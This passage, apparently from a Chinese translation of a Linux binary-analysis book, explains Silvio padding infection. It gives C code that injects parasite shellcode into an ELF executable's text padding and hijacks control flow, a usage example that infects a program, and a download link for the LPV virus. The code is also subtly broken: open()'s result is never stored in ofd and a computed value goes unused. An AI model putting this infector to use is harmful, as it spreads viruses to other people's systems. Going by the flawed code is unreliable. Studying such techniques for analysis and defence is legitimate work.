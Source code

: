 ```sh
```

#### 插入寄生代码

```sh
#define TMP "/tmp/.infected"

void insert_parasite(char *hosts_name, size_t psize, size_t hsize, uint8_t *mem, size_t end_of_text, uint8_t *parasite, uint32_t jmp_code_offset)
{
/* note: jmp_code_offset contains the
* offset into the payload shellcode that
* has the branch instruction to patch
* with the original offset so control
* flow can be transferred back to the
* host.
*/
        int ofd;
        unsigned int c;
        int i, t = 0;
        open (TMP, O_CREAT | O_WRONLY | O_TRUNC, S_IRUSR|S_IXUSR|S_IWUSR);  
        write (ofd, mem, end_of_text);
        *(uint32_t *) &parasite[jmp_code_offset] = old_e_entry;
        write (ofd, parasite, psize);
        lseek (ofd, PAGE_SIZE - psize, SEEK_CUR);
        mem += end_of_text;
        unsigned int sum = end_of_text + PAGE_SIZE;
        unsigned int last_chunk = hsize - end_of_text;
        write (ofd, mem, last_chunk);
        rename (TMP, hosts_name);
        close (ofd);
}
```

### 以上函数的使用示例

```sh
uint8_t *mem = mmap_host_executable("./some_prog");
silvio_text_infect("./some_prog", mem, parasite_shellcode, parasite_len);
```

### LPV 病毒

LPV 病毒使用 Silvio 填充感染，是为 32 位 Linux 系统设计的。 可以在[http://www.bitlackeys.org/#lpv](http://www.bitlackeys.org/#lpv)下载。

### 西尔维奥填充物感染用例

讨论的西尔维奥填充感染方法是非常受欢迎的，并已作为这样使用了很多。 正如前面提到的，在 32 位 UNIX 系统上实现该方法只需要 4,096 个字节。 在使用大页面的较新系统上，这种感染方法具有更大的潜力，并且允许更大的感染(高达 0x200000 字节)。 我个人使用过这种方法来处理寄生虫感染和可重定位代码注入，不过我已经放弃了它，转而使用反向文本感染方法，我们将在接下来讨论。

## 反向文本感染
